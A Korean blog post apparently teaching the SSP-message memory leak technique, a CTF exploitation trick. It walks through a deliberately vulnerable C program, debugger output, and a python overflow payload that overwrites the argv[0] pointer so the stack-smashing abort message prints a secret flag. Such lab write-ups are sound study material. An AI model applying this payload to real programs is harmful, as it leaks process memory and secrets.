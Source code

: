 ```yaml
---
layout: post
title: "SSP Message를 이용한 Memory Leak"
date: 2018-11-04
excerpt: "argv[0] 포인터 조작"
tags: [tech]
comments: true
---
```

```c
#include <stdio.h>

char secret[] = "flag{memory_leaked}";

int main()
{
	char buf[48];

	read(0, buf, 0x400);

	return 0;
}
```
우선 위의 코드를 컴파일하되, Stack Smash Protector을 해제하지 않고 컴파일 합니다.
```
gcc -o leak leak.c -m32 -mpreferred-stack-boundary=2
```

Stack Smash Protector가 적용된 바이너리이므로, Buffer Overflow가 발생해 canary가 훼손되었을 경우

아래와 같이 Stack Smashed Detected라는 메시지를 출력하며 SIGABRT를 띄울 것 입니다.
```
~/pwn/stack/ssp_leak st4nw@trust
❯ (python -c 'print "A" * 200') | ./leak                     
*** stack smashing detected ***: ./leak terminated
[1]    16462 done                 ( python -c 'print "A" * 200'; ) | 
       16463 abort (core dumped)  ./leak
```

여기서 눈여겨 보아야 할 것은 "./leak" 부분입니다. SSP Message는 분명히 argv[0]을 Message에 포함시켜 출력합니다.
 
그렇다면 gdb로 해당 바이너리가 실행될 때 argv[0]을 어디서 가져오는지 알아보겠습니다.
```
pwndbg> disas main
Dump of assembler code for function main:
   0x0804846b <+0>:	push   ebp
   0x0804846c <+1>:	mov    ebp,esp
   0x0804846e <+3>:	sub    esp,0x34
   0x08048471 <+6>:	mov    eax,gs:0x14
   0x08048477 <+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804847a <+15>:	xor    eax,eax
   0x0804847c <+17>:	push   0x400
   0x08048481 <+22>:	lea    eax,[ebp-0x34]
   0x08048484 <+25>:	push   eax
   0x08048485 <+26>:	push   0x0
   0x08048487 <+28>:	call   0x8048330 <read@plt>
   0x0804848c <+33>:	add    esp,0xc
   0x0804848f <+36>:	mov    eax,0x0
   0x08048494 <+41>:	mov    edx,DWORD PTR [ebp-0x4]
   0x08048497 <+44>:	xor    edx,DWORD PTR gs:0x14
   0x0804849e <+51>:	je     0x80484a5 <main+58>
   0x080484a0 <+53>:	call   0x8048340 <__stack_chk_fail@plt>
   0x080484a5 <+58>:	leave  
   0x080484a6 <+59>:	ret    
End of assembler dump.
```
leave 부분에 bp를 걸고 스택의 상황을 살펴보겠습니다.

```
pwndbg> search "/home/"
[stack]         0xffffd40d 0x6d6f682f ('/hom')
[stack]         0xffffd44f u'/home/st4nw'
[stack]         0xffffd630 0x6d6f682f ('/hom')
[stack]         0xffffd656 0x6d6f682f ('/hom')
[stack]         0xffffd81e 0x6d6f682f ('/hom')
[stack]         0xffffdf9b 0x6d6f682f ('/hom')
[stack]         0xffffdfd4 0x6d6f682f ('/hom')
pwndbg> x/100x $esp
0xffffd174:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd184:	0xffffd20a	0xffffd24c	0x080484d1	0xf7fae3dc
0xffffd194:	0x0804820c	0x080484b9	0x00000000	0xf7fae000
0xffffd1a4:	0x65bee200	0x00000000	0xf7e14637	0x00000001
0xffffd1b4:	0xffffd244	0xffffd24c	0x00000000	0x00000000
0xffffd1c4:	0x00000000	0xf7fae000	0xf7ffdc04	0xf7ffd000
0xffffd1d4:	0x00000000	0xf7fae000	0xf7fae000	0x00000000
0xffffd1e4:	0xe9a0d030	0xd4885e20	0x00000000	0x00000000
0xffffd1f4:	0x00000000	0x00000001	0x08048370	0x00000000
0xffffd204:	0xf7fee010	0xf7fe8880	0xf7ffd000	0x00000001
0xffffd214:	0x08048370	0x00000000	0x08048391	0x0804846b
0xffffd224:	0x00000001	0xffffd244	0x080484b0	0x08048510
0xffffd234:	0xf7fe8880	0xffffd23c	0xf7ffd918	0x00000001
0xffffd244:	0xffffd40d	0x00000000	0xffffd431	0xffffd43c  --------------> &argv[0]
0xffffd254:	0xffffd44a	0xffffd45b	0xffffd53e	0xffffd553
0xffffd264:	0xffffd566	0xffffd589	0xffffd5c0	0xffffd5d4
0xffffd274:	0xffffd5df	0xffffd5f4	0xffffd613	0xffffd624
0xffffd284:	0xffffd62c	0xffffd64f	0xffffd675	0xffffd68d
0xffffd294:	0xffffd6a3	0xffffd6c3	0xffffd6d6	0xffffd6ea
0xffffd2a4:	0xffffd700	0xffffd714	0xffffd730	0xffffd758
0xffffd2b4:	0xffffd7a6	0xffffd7d4	0xffffd802	0xffffd81a
0xffffd2c4:	0xffffd835	0xffffd840	0xffffd848	0xffffd868
0xffffd2d4:	0xffffddf0	0xffffde05	0xffffde16	0xffffde21
0xffffd2e4:	0xffffde3f	0xffffde53	0xffffde61	0xffffde70
0xffffd2f4:	0xffffde8b	0xffffde9d	0xffffdeab	0xffffdebd
```
syscall 규약에 따라 main 함수의 EBP+8에는 argc가, EBP+12에는 argv의 시작주소의 포인터가 적재됩니다.

```
출처 : http://btyy.tistory.com/229
```
EBP+12에는 현재 0xffffd244가 담겨있고, 0xffffd244에는 0xffffd40d가 담겨있으며 이는 argv[0]의 주소입니다.

여기서 0xffffd244의 값인 0xffffd40d을 flag 문자열의 주소로 덮어쓴다면, SSP Message는 argv[0]을 출력할 때 flag의 주소를 참조하게됩니다.

이는 아래의 결과로 확인할 수 있습니다.

```
pwndbg> r <<< $(python -c 'print "A" * 208 + "\x20\xa0\x04\x08"')
Starting program: /home/st4nw/pwn/stack/ssp_leak/leak <<< $(python -c 'print "A" * 208 + "\x20\xa0\x04\x08"')
*** stack smashing detected ***: flag{memory_leaked} terminated

Program received signal SIGABRT, Aborted.
```

이 기법과 관련된 문제로는 SECCON 2016 CTF의 checker가 있습니다.

* * *
개인적인 생각으로는, 자주 사용될 것 같지는 않지만 fork된 바이너리에서 유용하게 사용될 것 같습니다.
